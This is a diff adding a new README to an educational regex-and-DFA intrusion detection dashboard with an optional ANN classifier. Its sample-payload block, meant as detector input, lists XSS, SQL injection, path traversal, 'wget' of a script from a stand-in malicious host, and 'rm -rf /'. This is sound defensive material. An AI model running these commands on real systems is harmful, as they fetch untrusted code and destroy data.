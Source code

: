 *** Update File: README.md
@@
-# IDS-using-regex
-A minimal IDS using regex and DFA.
+<div align="center">
+
+# 🛡️ IDS Dashboard — Regex + DFA (FLA) + Optional ANN
+
+Scans packet/log payloads using **regular expressions** and **formal automata** (regex → NFA/DFA) to detect known malicious signatures (XSS, SQLi, traversal, command-exec, etc.).  
+Optional **ANN** (NSL-KDD) flow classifier with layman-friendly explanations.
+
+</div>
+
+---
+
+## ✨ Features
+- **Dual engines:** Regex (Python `re`) and **Formal DFA** (via `pyformlang`)  
+- **Both mode:** High-confidence threats = matched by **both** engines  
+- **Streamlit UI:** Paste payloads / upload logs, highlighted matches, explanations  
+- **Signatures:** `signatures.txt` (extensible from UI), categories & severity in UI  
+- **Optional ANN:** Train once on **NSL-KDD**, predict + explain (top features)  
+- **Benchmark:** Regex vs DFA timing on random payloads (`scripts/bench_regex_vs_dfa.py`)
+
+---
+
+## 📦 Quick Start
+
+> **Tested on Python 3.10/3.11 (Windows/Linux).** For packet sniffing, admin/root may be required.
+
+```bash
+python -m venv venv
+# Windows PowerShell
+.\venv\Scripts\Activate.ps1
+# macOS / Linux
+source venv/bin/activate
+
+pip install --upgrade pip
+pip install -r requirements.txt
+```
+
+### (Optional) Train ANN once
+```bash
+python train_ann_model.py
+```
+This downloads NSL-KDD (no dataset committed), trains a small ANN, and saves:
+```
+model/ann_model.h5
+preprocessors/ohe.pkl
+preprocessors/scaler.pkl
+```
+
+### Launch the UI
+```bash
+streamlit run ui_app.py
+# If streamlit not found:
+# python -m streamlit run ui_app.py
+```
+
+---
+
+## 🧭 How to Use
+1. **Choose mode** in the sidebar: **Regex**, **DFA**, or **Both**.  
+2. **Paste payload** (e.g., raw HTTP/log text) into the big text box.  
+3. Click **Run detection**.  
+4. Review **Regex/DFA matches**, **High-confidence** intersection, and the **highlighted input**.  
+5. Optionally, **add/remove signatures** from the sidebar.  
+6. (Optional) In the ANN section, upload NSL-KDD-formatted rows (no header) to classify and **explain**.
+
+### Example payload (copy/paste)
+```
+GET /search?q=%3Cscript%3Ealert('XSS')%3C%2Fscript%3E HTTP/1.1
+Host: vulnerable-website.com
+User-Agent: curl/7.68.0
+cmd.exe /c dir
+../../etc/passwd
+SELECT * FROM users WHERE id='1' OR '1'='1'
+wget http://malicious.example/payload.sh
+rm -rf / --no-preserve-root
+```
+
+### ANN CSV example (single row; no header, 41 features)
+```
+0,tcp,http,SF,181,5450,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,9,9,0.00,0.00,0.00,0.00,1.00,0.00,0.00,255,254,1.00,0.00,0.99,0.00,0.00,0.00,0.00,0.00
+```
+> You can also use the prepared `test_ann_50.csv` (mixed synthetic rows) if present, or upload rows copied from `KDDTest+.txt` (no header).
+
+---
+
+## 🧠 What’s happening under the hood?
+- **Regex engine:** Python’s `re` scans payloads for signatures; fast and flexible.  
+- **DFA engine:** Regex is converted to **ε-NFA → DFA (minimized)** with `pyformlang`, then `.accepts()` checks sequences. This is robust to some regex engine quirks and aligns with formal language theory.  
+- **Both mode:** If **Regex** and **DFA** agree, it’s flagged as **high-confidence** (🚨).  
+- **ANN (optional):** A small dense network trained on NSL-KDD flow features; the UI can show **top features** driving each prediction in plain English (e.g., “many SYN errors → possible scan/DoS”).
+
+---
+
+## 🧪 Benchmark: Regex vs DFA
+You can run:
+```bash
+python scripts/bench_regex_vs_dfa.py
+```
+This prints timing for N random payloads across Regex/DFA. Feel free to tweak sizes/patterns.
+
+---
+
+## 🗂️ Project Structure
+```
+.
+├─ ui_app.py                  # Streamlit UI
+├─ regex_dfa_matcher.py       # Dual-mode detectors (Regex + DFA) + explanations
+├─ ann_classifier.py          # ANN loader + explainable predictions
+├─ train_ann_model.py         # NSL-KDD downloader + trainer (saves model + preprocessors)
+├─ signatures.txt             # One pattern per line (editable via UI)
+├─ scripts/
+│  └─ bench_regex_vs_dfa.py   # Tiny benchmark harness
+├─ model/                     # (generated) ann_model.h5
+├─ preprocessors/             # (generated) ohe.pkl, scaler.pkl
+├─ logs/                      # alerts.log (if you add logging)
+├─ requirements.txt
+└─ README.md
+```
+
+---
+
+## 🛠️ Troubleshooting
+- **`ANN model/preprocessors not found`**  
+  Run `python train_ann_model.py` first. Confirm files exist under `model/` and `preprocessors/`.
+- **`TypeError: OneHotEncoder(..., sparse=...)`**  
+  Use `sparse_output=False` for scikit-learn ≥ 1.2 (already in our trainer).
+- **TensorFlow import errors**  
+  Ensure you’re inside the virtualenv, then:  
+  `pip install --upgrade "tensorflow>=2.11,<2.21"`
+- **`pyformlang` errors on some patterns**  
+  Some advanced PCRE features aren’t regular; those will still match in Regex mode but may fail to build as DFA. The UI uses **Regex** as fallback.
+
+---
+
+## 🔒 Notes
+- Live packet sniffing (if you add it) needs admin/root privileges.  
+- This project is for **educational/demo** purposes — not a production IDS.
+
+---
+
+## 📜 License
+MIT
+
